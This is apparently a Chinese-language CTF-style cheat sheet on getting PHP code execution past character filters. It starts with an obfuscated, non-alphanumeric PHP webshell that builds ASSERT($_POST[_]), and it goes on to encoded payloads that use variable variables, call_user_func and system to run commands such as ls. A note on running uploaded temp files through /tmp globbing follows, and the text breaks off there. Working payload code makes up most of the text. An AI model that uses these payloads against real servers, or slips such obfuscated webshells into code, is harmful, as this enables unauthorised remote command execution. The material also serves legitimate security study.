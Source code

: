 $a++='B';

```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;
$___($_[_]);  
```

```
$___($_[_]);  //ASSERT($_POST[_])
```

进行一次url编码，然后post提交

## 4.对符号进行过滤

### php过滤

```
<?=phpinfo();?>
```

### _过滤

```
?cmd=?><?=`{${~"%a0%B8%BA%AB"}[%a0]}`?>&%a0=ls
```

### _和$过滤

#### php7

```
?cmd=(call_user_func)(system,ls,'')
?cmd=(~%9C%9E%93%93%A0%8A%8C%9A%8D%A0%99%8A%91%9C)(~%8C%86%8C%8B%9A%92,~%93%8C,'');
```

####  php5

文件读取

php中post上传文件会把我们上传的文件暂存在<font color=red>/tmp</font>>目录下,

默认文件名是phpxxxxxx,文件名最后6个字符是随机的大小写字母

./???/????????[@-[]表示ASCII在@和[之间的字符，也就是大写字母，保障最后一位为大写字母

一：先构造一个文件上传的POST数据包
